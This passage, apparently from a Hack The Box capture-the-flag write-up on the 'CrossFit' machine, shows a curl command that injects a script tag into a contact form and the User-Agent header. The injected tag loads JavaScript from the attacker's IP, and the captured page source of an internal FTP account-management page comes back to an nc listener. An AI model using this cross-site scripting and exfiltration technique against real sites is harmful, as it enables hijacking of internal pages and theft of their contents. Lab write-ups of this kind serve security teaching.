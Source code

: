 On sending that with curl:

```

root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/ftp-create-get.js"></script>'

```

The page source is returned to `nc` listening on TCP 3000:

```

<!DOCTYPE html>

<html>
<head>
    <title>FTP Hosting - Account Management</title>
    <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
</head>
<body>

<br>
<div class="container">
        <div class="row">
        <div class="col-lg-12 margin-tb">
            <div class="pull-left">
                <h2>FTP Hosting - Account Management</h2>
            </div>
            <div class="pull-right">
                <a class="btn btn-success" href="http://ftp.crossfit.htb/accounts/create"> Create New Account</a>
            </div>
        </div>
    </div>
    <table class="table table-bordered">
        <tr>
            <th>No</th>
            <th>Username</th>
            <th>Creation Date</th>
            <th width="280px">Action</th>
        </tr>
    </table>
</div>
</body>
</html>

```

The link to `http://ftp.crossfit.htb/accounts/create` is interesting. I’ll get that page next. It contains a form allowing a user to set a username and password:
